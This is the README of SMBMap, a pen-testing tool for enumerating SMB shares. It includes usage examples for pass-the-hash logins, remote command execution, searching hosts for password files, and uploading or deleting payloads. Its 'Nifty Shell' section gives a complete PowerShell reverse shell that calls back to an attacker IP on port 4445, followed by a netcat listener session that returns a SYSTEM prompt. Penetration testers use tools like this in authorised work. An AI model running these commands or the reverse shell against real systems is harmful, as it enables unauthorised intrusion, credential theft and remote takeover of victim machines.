 # SMBMap

SMBMap allows users to enumerate samba share drives across an entire domain. List share drives, drive permissions, share contents, upload/download functionality, file name auto-download pattern matching, and even execute remote commands. This tool was designed with pen testing in mind, and is intended to simplify searching for potentially sensitive data across large networks.

Some of the features have not been thoroughly tested, so changes will be forth coming as bugs are found. I only really find and fix the bugs while I'm on engagements, so progress is a bit slow. Any feedback or bug reports would be appreciated. It's definitely rough around the edges, but I'm just trying to pack in features at the moment. Version 2.0 should clean up the code a lot….whenever that actually happens ;). Thanks for checking it out!! Planned features include simple remote shell (instead of the god awful powershell script in the examples), actual logging, shadow copying ntds.dit automation (Win7 and up only..for now), threading, other things….

You'll need Impacket to use this tool:

https://github.com/CoreSecurity/impacket

Apparently the latest Impacket requires PyASN.1:

http://sourceforge.net/projects/pyasn1/

## Features:
- Pass-the-hash Support
- File upload/download/delete
- Permission enumeration (writable share, meet Metasploit)
- Remote Command Execution
- Distrubted file content searching (new!)
- File name matching (with an auto downoad capability)

```
SMBMap - Samba Share Enumerator
Shawn Evans - Shawn.Evans@gmail.com

$ python smbmap.py -u jsmith -p password1 -d workgroup -h 192.168.0.1
$ python smbmap.py -u jsmith -p 'aad3b435b51404eeaad3b435b51404ee:da76f2c4c96028b7a6111aef4a50a94d' -h 172.16.0.20
$ cat smb_ip_list.txt | python smbmap.py -u jsmith -p password1 -d workgroup
$ python smbmap.py -u 'apadmin' -p 'asdf1234!' -d ACME -h 10.1.3.30 -x 'net group "Domain Admins" /domain'

-P      port (default 445), ex 139
-h      IP of host
-u      Username, if omitted null session assumed
-p      Password or NTLM hash
-s      Share to use for smbexec command output (default C$), ex 'C$'
-x      Execute a command, ex. 'ipconfig /r'
-d      Domain name (default WORKGROUP)
-R      Recursively list dirs, and files (no share\path lists ALL shares), ex. 'C$\Finance'
-A      Define a file name pattern (regex) that auto downloads a file on a match (requires -R or -r), not case sensitive, ex "(web|global).(asax|config)"
-r      List contents of directory, default is to list root of all shares, ex. -r 'c$\Documents and Settings\Administrator\Documents'
-F      File content search, -F '[Pp]assword' (requies admin access to execute commands, and powershell on victim host)
--search-path   Specify drive/path to search (used with -F, default C:\Users), ex 'D:\HR\'
-D      Download path, ex. 'C$\temp\passwords.txt'
-L      List all drives on a host
--upload-src    File upload source, ex '/temp/payload.exe'  (note that this requires --upload-dst for a destiation share)
--upload-dst    Upload destination on remote host, ex 'C$\temp\payload.exe'
--del       Delete a remote file, ex. 'C$\temp\msf.exe'
--skip      Skip delete file confirmation prompt
-q      Disable verbose output (basically only really useful with -A)
```

## Sample Default Output:
```
$ cat smb-hosts.txt | python smbmap.py -u jsmith -p 'R33nisP!nckl3' -d ABC
[+] Reading from stdin
[+] Finding open SMB ports....
[+] User SMB session establishd...
[+] IP: 192.168.0.5:445 Name: unkown                                            
        Disk                                                    Permissions
        ----                                                    -----------
        ADMIN$                                                  READ, WRITE
        C$                                                      READ, WRITE
        IPC$                                                    NO ACCESS
        TMPSHARE                                                READ, WRITE
[+] User SMB session establishd...
[+] IP: 192.168.2.50:445        Name: unkown                                            
        Disk                                                    Permissions
        ----                                                    -----------
        IPC$                                                    NO ACCESS
        print$                                                  READ, WRITE
        My Dirs                                                 NO ACCESS
        WWWROOT_OLD                                             NO ACCESS
        ADMIN$                                                  READ, WRITE
        C$                                                      READ, WRITE

$ python smbmap.py -u ariley -p 'P@$$w0rd1234!' -d ABC -x 'net group "Domain Admins" /domain' -h 192.168.2.50
[+] Finding open SMB ports....
[+] User SMB session establishd...
[+] IP: 192.168.2.50:445        Name: unkown                                            
Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
abcadmin                  
The command completed successfully.
```
## File Content Searching:

```
$ python smbmap.py -h 192.168.1.203 -u Administrator -p p00p1234! -F password --search-path 'C:\Users\wingus\AppData\Roaming'
[!] Missing domain...defaulting to WORKGROUP
[+] Finding open SMB ports....
[+] User SMB session establishd...
[+] IP: 192.168.1.203:445 Name: unkown                                            
[+] File search started on 1 hosts...this could take a while
[+] Job 861d4cd845124cad95d42175 started on 192.168.1.203, result will be stored at C:\Windows\TEMP\861d4cd845124cad95d42175.txt
[+] Grabbing search results, be patient, share drives tend to be big...
[+] Job 1 of 1 completed
[+] All jobs complete
Host: 192.168.1.203       Pattern: password
C:\Users\wingus\AppData\Roaming\Mozilla\Firefox\Profiles\35msadwm.default\logins.json
C:\Users\wingus\AppData\Roaming\Mozilla\Firefox\Profiles\35msadwm.default\prefs.js
```

## Drive Listing
This feature was added to compliment the file content searching feature

```
$ python smbmap.py -h 192.168.1.24 -u Administrator -p 'R33nisP!nckle' -L 
[!] Missing domain...defaulting to WORKGROUP
[+] Finding open SMB ports....
[+] User SMB session establishd...
[+] IP: 192.168.1.24:445 Name: unkown                                            
[+] Host 192.168.1.24 Local Drives: C:\ D:\
[+] Host 192.168.1.24 Net Drive(s):
    E:      \\vboxsrv\Public      VirtualBox Shared Folders
```

## Nifty Shell:
Run Powershell Script on Victim SMB host (change the IP in the code to your IP addres, i.e where the shell connects back to)
```
$ python smbmap.py -u jsmith -p 'R33nisP!nckle' -d ABC -h 192.168.2.50 -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.153""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"' 
[+] Finding open SMB ports....
[+] User SMB session establishd...
[+] IP: 192.168.2.50:445        Name: unkown                                            
[!] Error encountered, sharing violation, unable to retrieve output
```

## Attackers Netcat Listener

```
$ nc -l 4445
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
 nt authority\system
```
